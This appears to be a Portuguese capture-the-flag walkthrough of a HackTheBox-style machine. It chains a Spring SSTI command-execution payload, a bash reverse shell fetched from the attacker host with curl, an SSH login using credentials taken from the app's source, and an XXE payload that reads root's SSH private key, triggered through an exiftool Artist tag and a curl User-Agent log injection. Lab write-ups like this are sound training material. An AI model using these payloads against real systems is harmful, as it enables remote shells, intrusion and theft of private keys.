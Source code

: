 Enumeração de serviços:
![[Pasted image 20240206163037.png]]
Após alguns testes de injeção na barra de pesquisa do site, encontramos uma vulnerabilidade de SSTI (Server Side Template Injection) com o payload: `*{{7*7}}`.
![[Pasted image 20240206165400.png]]
Podemos executar comandos no alvo com o payload:
```python
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

Vamos pegar uma shell reversa da seguinte forma:
 1. Crie um script em bash com o payload `bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1` e extensão `.sh`.
2. Inicie um servidor http na máquina atacante com `python3 -m http.server 80`
3. Faça o download do script na máquina alvo na pasta temporária com `curl http://$LHOST/shell.sh -o /tmp/shell.sh`
4. Altere a permissão de execução do arquivo no alvo com `chmod +x /tmp/shell.sh`
5. Execute o script no alvo com `/bin/bash /tmp/shell.sh`

Agora com a shell, fazemos a enumeração dos arquivos em busca de credenciais no código da aplicação feita em Java com Spring Boot e encontramos no arquivo: `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
`
Agora é só logar via SSH:
`woodenk:RedPandazRule`

# Máquina muito hard

Necessário analisar os arquivos rodando periodicamente e analisar o arquivo: `/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java`
Com isso será possível identificar que o código faz um parse do log `/opt/panda_search/redpanda.log` buscando pelo caminho das imagens e retirando apenas o valor de Artist das imagens, para então concatenar esse valor em um XML. Dessa forma precisamos fazer um XXE alterando a tag Artist de uma imagem, incluindo o payload XXE para trazer o SSH do root e fazer um curl para manipular o caminho da imagem que será gravado no log.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY xxe SYSTEM 'file:///root/.ssh/id_rsa'>]>
<credits>
  <author>&xxe;</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>1</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```

Alterar o artist da imagem:
`exiftools -Artist='../tmp/hax smooch.jpg`

Suba os dois arquivos para a máquina alvo e altere o nome do XML para `hax_creds.xml`

Fazer o curl manipulando o User Agent do site:
`curl -A "evil||/../../../../../../../../../../tmp/smooch.jpg" http://10.10.11.170:8080/`
`
``